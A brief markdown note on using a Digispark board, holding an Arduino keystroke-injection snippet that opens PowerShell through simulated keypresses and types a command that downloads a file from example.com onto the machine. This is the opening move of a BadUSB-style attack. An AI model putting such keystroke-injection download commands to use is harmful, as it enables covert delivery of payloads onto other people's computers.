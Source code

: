 # Digispark 使用
```cpp
Keyboard.press(KEY_LEFT_CTRL);//下载文件
Keyboard.press(KEY_ESC);
Keyboard.releaseAll();
Keyboard.print("powershell");
Keyboard.press(KEY_RETURN);
Keyboard.print("(new-objectSystem.Net.WebClient).DownloadFile('http://www.example.com/example.html','d:lalala.html')");
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjk5Nzk1MDU5XX0=
-->